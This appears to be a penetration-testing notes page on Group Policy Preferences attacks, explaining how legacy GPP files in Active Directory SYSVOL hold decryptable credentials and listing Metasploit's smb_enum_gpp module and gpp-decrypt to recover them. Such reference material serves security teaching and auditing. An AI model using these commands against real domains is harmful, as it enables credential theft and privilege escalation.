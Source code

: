 # GPP Attacks

## Brief

> Group Policy Preferences (GPP) are a powerful tool that once **allowed administrators to create domain policies with embedded credentials**. These policies allowed administrators to set local accounts, embed credentials for the purposes of mapping drives, or perform other tasks that may otherwise require an embedded password in a script.
>
> _While a useful tool, the storage mechanism for the credentials was flawed and allowed attackers to trivially decrypt the plaintext credentials_.&#x20;
>
> While addressed in **MS14-025**, this patch only prevents new policies from being created, and any legacy GPPs containing credentials must be found and removed. Often, these kinds of policies can involve service accounts that frequently have elevated privileges. And one of these methods to find those credz is mining SYSVOL for credential data.
>
> SYSVOL is the domain-wide share in Active Directory to which all authenticated users have read access. SYSVOL contains logon scripts, group policy data, and other domain-wide data which needs to be available anywhere there is a Domain Controller (since SYSVOL is automatically synchronized and shared among all Domain Controllers).
>
> **All domain Group Policies are stored here:** `\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`

## Attack

Use a module called **smb\_enum\_gpp** in **metasploit** to find the **group.xml** file

```bash
msfconsole
use auxiliary/scanner/smb/smb_enum_gpp
# crack
gpp-decrypt hash
```
